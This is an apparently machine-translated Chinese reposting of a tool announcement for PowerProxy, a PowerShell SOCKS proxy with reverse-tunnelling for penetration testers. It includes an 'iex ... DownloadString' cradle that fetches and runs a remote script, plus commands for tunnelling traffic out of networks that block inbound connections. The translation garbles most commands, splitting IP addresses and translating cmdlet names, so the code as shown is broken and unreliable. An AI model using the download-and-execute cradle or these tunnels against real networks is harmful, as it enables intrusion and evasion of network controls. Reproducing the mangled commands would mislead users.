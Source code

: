 # PowerProxy:具有反向代理功能的 PowerShell SOCKS 代理

> 原文：<https://kalilinuxtutorials.com/powerproxy/>

[![](img//cee58e8d88272d1a54333daa56ff7dec.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjPqRKWApKgOZgiCruNP8X3l36auUY7VDI-ozM0_o9AOGrq1f0pPm63ciscTO-bP2_gB0U8Egv2QaCGSbHlGzvWXl8IPbm6Wax9a6Ihcaq5dhy1lZL3ENyhpiFiXVQoY9GP35OgWra0wr5opoIFNBQvSEtVl1Y1zWK-nhOks6Hc-1CpAD8e3RKU_lQ6/s728/download%20(1).png)

PowerProxy 是一个具有反向代理功能的 PowerShell SOCKS 代理。

PowerProxy 是为渗透测试人员编写的。对于穿越阻止入站连接的网络，反向代理功能是优先考虑的。默认情况下，反向代理连接是加密的。Socks 5 连接支持用户名/密码验证。

## 设置

导入脚本:

iex (new-object net.webclient)。download string(" http://192 . 168 . 0 . 22/power proxy . PS1 ")
或
Import-Module \ 192 . 168 . 0 . 22 \ Public \ power proxy . PS1

**reverse_proxy_handler.py** 可以创建临时 SSL 证书，这需要 OpenSSL。如果您的机器上没有安装 OpenSSL(大多数基于 Linux/Unix 的系统上都有)，请提供您自己的证书或使用*–不加密*选项。

## 用法

详细用法，查看 PowerProxy 的帮助，或者使用*。/reverse _ proxy _ handler . py–help*

### **运行反向代理**

在本地机器上，启动处理程序:

**监听端口 8080 上的反向代理。客户端连接到端口 1080(默认)
。/reverse _ proxy _ handler . py-p 8080**

在 PowerShell 中:

**启动-反向锁止 172.1.1.20-端口 8080**

代理客户端可以将 reverse_proxy_handler.py 创建的服务器视为实际的 SOCKS 服务器:

**curl–socks 4 127 . 0 . 0 . 1:1080 http://10 . 10 . 2 . 69/**

**运行传统的 SOCKS 服务器**

**起始 socks 代理 172.10.2.20 端口 9050**

### 要求认证

使用 PSCredential 对象要求用户名和密码:

**创建凭证
$ Password = convert to-SecureString-asplaint ext-Force " passw0rd 123 "
$ Cred = New-Object System。management . automation . PS Credential(" proxy user "，$ Password)
Start-reversesocks proxy-Credential $ Cred-Address 10 . 10 . 10 . 24-Verbose**

[**Download**](https://github.com/get-get-get-get/PowerProxy)